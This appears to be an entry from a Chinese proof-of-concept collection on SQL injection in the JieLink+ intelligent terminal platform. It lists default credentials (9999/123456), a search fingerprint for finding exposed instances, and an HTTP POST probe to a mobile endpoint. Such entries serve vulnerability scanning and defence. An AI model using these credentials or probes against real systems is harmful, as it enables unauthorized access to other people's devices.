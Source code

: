 ﻿# JieLink+智能终端操作平台 SQL注入

> 更新时间：2024-01-19

> 漏洞编号：

> 漏洞说明：可能存在默认账号：9999 密码：123456

> 漏洞特征：title=="JieLink+智能终端操作平台"

> 验证脚本：HTTP

```
POST /mobile/Remote/GetParkController HTTP/1.1
Accept: application/json, text/plain
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
 
deviceId=1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：


> 验证文件来源：JieLink+智能终端操作平台 SQL注入.poc
